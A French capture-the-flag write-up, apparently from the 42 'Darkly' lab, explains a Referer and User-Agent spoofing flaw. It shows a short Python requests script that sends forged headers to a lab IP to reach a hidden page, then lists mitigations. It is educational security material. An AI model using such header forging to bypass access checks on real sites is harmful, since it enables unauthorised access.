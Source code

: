 # Vulnérabilité de Referer Spoofing (Falsification de Referer)

## Découverte
En explorant le site web, j'ai trouvé des commentaires HTML cachés révélant que l'application vérifie des en-têtes HTTP spécifiques :
- `Referer: https://www.nsa.gov/`
- `User-Agent: ft_bornToSec`

## Vulnérabilité
Il s'agit d'une vulnérabilité de **falsification des en-têtes Referer et User-Agent**. L'application utilise des en-têtes HTTP contrôlés par le client pour les contrôles d'accès, qui peuvent être facilement manipulés.

## Exploitation
On a créé un script Python simple pour envoyer une requête avec les en-têtes modifiés :
```python
import requests

headers = {
    'Referer': 'https://www.nsa.gov/',
    'User-Agent': 'ft_bornToSec'
}

response = requests.get('http://10.13.248.97/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f', headers=headers)
```

## Atténuation
- Ne pas se fier aux en-têtes contrôlés par le client pour les décisions de sécurité
- Mettre en place une authentification appropriée avec des jetons de session ou des clés API
- Utiliser une vérification côté serveur pour le contrôle d'accès
- Appliquer des contrôles d'autorisation appropriés basés sur les rôles des utilisateurs authentifiés